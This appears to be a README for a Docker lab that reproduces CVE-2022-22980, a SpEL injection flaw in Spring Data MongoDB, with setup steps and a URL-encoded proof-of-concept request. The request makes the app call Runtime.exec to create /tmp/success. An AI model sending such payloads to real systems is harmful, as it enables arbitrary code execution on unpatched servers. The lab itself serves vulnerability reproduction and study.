

# Spring Data MongoDB SpEL Injection Vulnability(CVE-2022-22980)

## Introduction

A Spring Data MongoDB application is vulnerable to SpEL Injection when using @Query or @Aggregation-annotated query methods with SpEL expressions that contain query parameter placeholders for value binding if the input is not sanitized.

## Setup

Run

```bash
docker-compose up
```

and you can inject your spel to `http://localhost:8080/CVE-2022-22980?query=<payload>`.

## Poc

Send request below to create `/tmp/success` file.

```http
GET /CVE-2022-22980?query=%54%28%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%29%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%73%75%63%63%65%73%73%22%29 HTTP/1.1
Host: localhost
Connection: close
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/21.0.1180.89 Safari/537.1
```



## References

1. https://tanzu.vmware.com/security/cve-2022-22980
